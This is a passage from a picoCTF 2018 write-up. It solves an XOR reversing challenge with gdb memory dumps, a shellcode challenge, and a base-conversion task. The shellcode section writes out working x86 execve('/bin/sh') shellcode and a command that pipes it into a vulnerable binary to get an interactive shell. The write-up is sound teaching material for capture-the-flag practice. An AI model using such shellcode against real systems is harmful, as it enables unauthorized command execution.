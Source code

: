Doing that we see that do\_magic is where things happen. It takes the provided input xor some secret buffer and checks if the result is the same as the greetingMessage.
Let's dump the 25 first bytes of secret buffer and greetingMessage to disk from gdb.
```
gdb main
info variables
...
0x08048858  sekrutBuffer
0x0804a038  greetingMessage
...
dump memory sekrutBuffer.bin 0x08048858 (0x08048858+25)
x /x 0x804a038
0x804a038 <greetingMessage>:    0x080487f0
dump memory greetingMessage.bin 0x080487f0 (0x080487f0+25)
```
Then I wrote a tool xorfiles that ... xor two files.
```
xorfiles sekrutBuffer.bin greetingMessage.bin
picoCTF{flag}
```

# shellcode
### Binary Exploitation: 200p
This program executes any input you give it. Can you get a shell? You can find the program in /problems/shellcode\_1\_cec2eb801137d645a9f15b9b6af5347a on the shell server. [Source](https://2018shell2.picoctf.com/static/77b3483ed4e56701fa7db9c5bdea4d03/vuln.c).
We just have to find a shellcode and feed it into the program. Like this:
```
perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' | ./vuln
Enter a string!
1Ph//shh/binPS

Thanks! Executing now...
```
But nothing happened. That is because the shell exits immediately when the pipe is closed.
Let's execute it in a subshell instead and cat the shellcode followed by a dash (-). - tells cat
to keep reading input from stdin. Subshell is gained by putting parenthesis around everything.
```bash
perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' > shellcode
(cat shellcode - | ./vuln)
ls
shellcode  vuln
```
Now do the same on the real server and get the flag.

# what base is this?
### General Skills: 200p
To be successful on your mission, you must be able read data represented in different ways, such as hexadecimal or binary. Can you get the flag from this program to prove you are ready? Connect with nc 2018shell2.picoctf.com 64706.
```python
import sys

def tostr(s, b):
    for c in s.split():
        i = int(c, b)
        sys.stdout.write(chr(int(c, b)))
    sys.stdout.write('\n')

tostr(sys.argv[1], int(sys.argv[2]))
```